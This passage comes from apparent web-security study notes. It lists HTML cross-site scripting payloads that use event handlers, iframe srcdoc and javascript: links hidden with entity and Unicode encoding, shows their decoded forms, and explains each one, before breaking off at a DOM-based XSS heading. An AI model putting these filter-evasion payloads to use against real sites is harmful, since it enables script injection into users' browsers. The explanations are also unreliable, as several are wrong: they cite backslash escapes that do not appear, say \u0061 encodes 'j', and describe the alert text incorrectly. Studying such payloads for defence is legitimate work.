 XSS Test:

Which one of the following codes is valid for XSS?

{% code overflow="wrap" %}
```html
<body onload="console.log('&#39;);&#x61;lert(1);//')"><img/src/onerror='console.log("&quot;);&#x61;lert(2);//)'><img/src/onerror="\u0061lert(3);"><iframe srcdoc="&lt;svg/onload=alert(4)&gt;"></iframe><a href="&#74;avascript&colon;alert(origin)">test</a><a href=&#74;avascript&colon;alert(origin)>test</a><a/href=javascript&colon;alert()>click<a href="j\u0061vascript:\u0061lert();">test</a>
```
{% endcode %}

{% code overflow="wrap" %}
```html
<body onload="console.log('');alert(1);//')"><img src="x" onerror="console.log(&quot;&quot;);alert(2);//)"><img src="" onerror="\u0061lert(3);"><iframe srcdoc="<svg/onload=alert(4)>"></iframe> -> <svg onload="alert(4)"></svg><a href="Javascript:alert(origin)">test</a><a href=Javascript:alert(origin)>test</a><a href="javascript:alert()">click</a><a href="j\u0061vascript:\u0061lert();">test</a>
```
{% endcode %}

The payloads provided contain various types of XSS attacks. Here's a breakdown of the valid payloads and their corresponding browser outputs:

1. `<body onload="console.log('');alert(1);//">`: This payload is valid and will trigger an alert box with the message "1" when the page loads. It uses a single quote and a backslash to escape the single quote inside the `console.log()` call.
2. `<img src="x" onerror="console.log("");alert(2);//">`: This payload is also valid and will trigger an alert box with the message "2" when the image fails to load. It uses a double quote and a backslash to escape the double quote inside the `console.log()` call.
3. `<img src="" onerror="\u0061lert(3);">`: This payload is valid and will trigger an alert box with the message "3" when the image fails to load. It uses a Unicode character to represent the letter "a" and the `alert()` function.
4. `<iframe srcdoc="<svg/onload=alert(4)>">`: This payload is valid and will trigger an alert box with the message "4" when the iframe is loaded. It uses an SVG element with an `onload` event to execute the `alert()` function.
5. `<a href="Javascript:alert(origin)">test</a>`: This payload is valid and will trigger an alert box with the message "origin" when clicked. It uses the `origin` property to retrieve the origin of the current URL.
6. `<a href=Javascript:alert(origin)>test</a>`: This payload is also valid and will trigger an alert box with the message "origin" when clicked. It uses the `origin` property to retrieve the origin of the current URL.
7. `<a href="javascript:alert()">click</a>`: This payload is valid and will trigger an alert box when clicked. It uses the `alert()` function without any parameters.
8. `<a href="j\u0061vascript:\u0061lert();">test</a>`: This payload is valid and will trigger an alert box when clicked. It uses a Unicode character to represent the letter "j" and the `alert()` function.

In the browser, the `<a>` tags will be rendered as clickable links and the `<iframe>` will display an SVG element with an `onload` event that will trigger the `alert()` function. The `<img>` tags will not display any image, but they will attempt to load the image and trigger the `onerror` event, which will execute the `alert()` function.



### DOM Based XSS

**Source**

In the context of DOM-based XSS, a source refers to the location where the data is retrieved by the application. Here are some examples:
